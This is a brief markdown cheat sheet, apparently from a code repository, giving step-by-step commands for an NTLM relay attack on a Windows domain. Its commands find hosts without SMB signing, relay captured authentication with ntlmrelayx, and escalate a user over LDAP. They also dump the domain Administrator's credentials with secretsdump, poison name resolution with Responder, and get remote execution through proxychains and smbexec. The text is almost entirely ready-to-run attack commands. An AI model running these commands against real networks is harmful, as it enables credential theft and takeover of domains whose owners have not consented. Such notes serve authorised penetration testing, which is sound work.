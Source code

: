# How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`   
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: If you want, you can run Responder at the same time, but in that case you have to disable SMB and HTTP server for Responder:   
 - Start Responder.py with SMB and HTTP disabled:   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   
